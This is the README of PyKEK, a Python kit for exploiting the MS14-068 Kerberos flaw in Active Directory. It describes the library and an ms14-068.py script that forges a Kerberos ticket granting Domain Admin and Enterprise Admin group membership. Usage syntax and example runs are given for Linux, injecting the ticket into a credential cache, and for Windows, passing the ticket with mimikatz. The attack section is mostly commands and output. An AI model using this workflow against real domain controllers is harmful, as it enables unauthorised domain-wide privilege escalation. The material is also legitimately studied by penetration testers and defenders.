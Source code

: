 Python Kerberos Exploitation Kit
===

PyKEK (Python Kerberos Exploitation Kit), a python library to manipulate KRB5-related data. (Still in development)

For now, only a few functionalities have been implemented (in a quite Quick'n'Dirty way) to exploit  MS14-068 (CVE-2014-6324) .

More is coming...

# Author
Sylvain Monné

Contact : sylvain dot monne at solucom dot fr

http://twitter.com/bidord

Special thanks to: Benjamin DELPY `gentilkiwi`

# Library content
* kek.krb5: Kerberos V5 ([RFC 4120](https://tools.ietf.org/html/rfc4120)) ASN.1 structures and basic protocol functions
* kek.ccache: Credential Cache Binary Format ([cchache](http://www.gnu.org/software/shishi/manual/html_node/The-Credential-Cache-Binary-File-Format.html))
* kek.pac: Microsoft Privilege Attribute Certificate Data Structure ([MS-PAC](http://msdn.microsoft.com/en-us/library/cc237917.aspx))
* kek.crypto: Kerberos and MS specific cryptographic functions

# Exploits
## ms14-068.py
Exploits [MS14-680](https://technet.microsoft.com/en-us/library/security/ms14-068.aspx) vulnerability on an un-patched domain controler of an Active Directory domain to get a Kerberos ticket for an existing domain user account with the privileges of the following domain groups :
- Domain Users (513)
- Domain Admins (512)
- Schema Admins (518)
- Enterprise Admins (519)
- Group Policy Creator Owners (520)

### Usage :
```
USAGE:
ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr>

OPTIONS:
    -p <clearPassword>
 --rc4 <ntlmHash>
```
### Example usage :
#### Linux (tested with samba and MIT Kerberos)
```
root@kali:~/sploit/pykek# python ms14-068.py -u user-a-1@dom-a.loc -s S-1-5-21-557603841-771695929-1514560438-1103 -d dc-a-2003.dom-a.loc
Password: 
  [+] Building AS-REQ for dc-a-2003.dom-a.loc... Done!
  [+] Sending AS-REQ to dc-a-2003.dom-a.loc... Done!
  [+] Receiving AS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Parsing AS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Building TGS-REQ for dc-a-2003.dom-a.loc... Done!
  [+] Sending TGS-REQ to dc-a-2003.dom-a.loc... Done!
  [+] Receiving TGS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Parsing TGS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Creating ccache file 'TGT_user-a-1@dom-a.loc.ccache'... Done!
root@kali:~/sploit/pykek# mv TGT_user-a-1@dom-a.loc.ccache /tmp/krb5cc_0 
```
#### On Windows

```
python.exe ms14-068.py -u user-a-1@dom-a.loc -s S-1-5-21-557603841-771695929-1514560438-1103 -d dc-a-2003.dom-a.loc
mimikatz.exe "kerberos::ptc TGT_user-a-1@dom-a.loc.ccache" exit`
```
